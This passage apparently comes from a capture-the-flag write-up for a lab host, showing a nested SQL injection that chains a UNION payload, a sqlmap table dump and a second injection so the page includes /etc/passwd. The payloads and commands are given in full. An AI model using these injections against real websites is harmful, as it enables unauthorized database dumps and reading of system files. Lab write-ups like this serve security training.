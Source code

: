 
So I’ll submit:

    
    
    587' and 1=2 UNION select 'about'-- -
    

It worked, returning the about page:

![1561207648919](https://0xdfimages.gitlab.io/img/1561207648919.png)

#### Controlling tpl –> inc

Now that I can put whatever I want into tpl, I’ll inject again to control what
is included in the page. From the source, I see the SQL query will be:

    
    
    SELECT path from filepath where name = $tpl
    

Again, I can use the injection to see what’s in that table:

    
    
    root@kali# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch -D neddy -T filepath --dump
    ...[snip]...
    +---------+--------------------------------------+
    | name    | path                                 |
    +---------+--------------------------------------+
    | about   | 47c1ba4f7b1edf28ea0e2bb250717093.php |
    | contact | 0f710bba8d16303a415266af8bb52fcb.php |
    | main    | 787c75233b93aa5e45c3f85d130bfbe7.php |
    +---------+--------------------------------------+
    

The table maps the tpl string to a page to include.

So fully control that, I want the query to look like:

    
    
    SELECT path from filepath where name = 0xdf UNION select /etc/passwd
    

Since 0xdf does not exist, the only return will be the path I passed,
`/etc/passwd`.

Since I need this to pass through the previous function, I’ll start with that
injection, and replace `about` with the second injection:

    
    
    587' and 1=2 UNION select '0xdf\' union select \'/etc/passwd\'-- -'-- -
    

That worked, I got `/etc/passwd`:

![1561208177648](https://0xdfimages.gitlab.io/img/1561208177648.png)
